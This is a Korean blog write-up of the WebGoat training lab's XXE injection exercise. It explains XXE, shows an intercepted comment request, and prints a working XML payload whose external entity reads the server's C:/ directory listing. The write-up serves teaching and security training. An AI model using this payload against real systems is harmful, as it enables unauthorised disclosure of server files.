 ```yaml
---
layout: post
title: WebGoat - XXE Injection (1)
date: 2021-01-13 18:00:00 +0900
category: Web_Hacking
---
```


# WebGoat - XXE Injection (1)

#### 이미지가 포함된 게시글에 댓글 작성 시 XXE Injection을 시도하여 시스템의 root 디렉토리에 있는 파일들의 이름 나열하기

<br/>

> XXE(XML eXternal Entity) Injection이란 XML이 외부 엔티티를 포함하고 있을 때, 이를 이용하여 기밀 데이터 유출, DoS 등을 유발하는 공격이다.

<br/>

댓글을 작성한 후 Burp Suite를 통해 보면 Content-Type이 application/xml인 것을 알 수 있고, 이를 통해 body 부분이 XML형식으로 전송된다는 것을 알 수 있다.

![webgoat_xxe1_1](/public/img/webgoat_xxe1_1.PNG)

![webgoat_xxe1_2](/public/img/webgoat_xxe1_2.PNG)

<br/>

이제 xml이 포함된 request를 intercept하여 body부분을 아래와 같이 수정하여 전송해보자.

SYSTEM이라는 예약어를 사용하면 해당 엔티티는 외부 엔티티가 된다.

```shell
<?xml version="1.0" standalone="yes" ?>
<!DOCTYPE comment [
  <!ELEMENT comment (#PCDATA)>
  <!ENTITY js SYSTEM "file:///c:/">
]>
<comment>
<text>&js;</text>
</comment>
```

![webgoat_xxe1_3](/public/img/webgoat_xxe1_3.PNG)

<br/>

그 결과, 현재 C드라이브에 존재하는 모든 디렉토리와 파일들이 보여진다.

![webgoat_xxe1_4](/public/img/webgoat_xxe1_4.PNG)

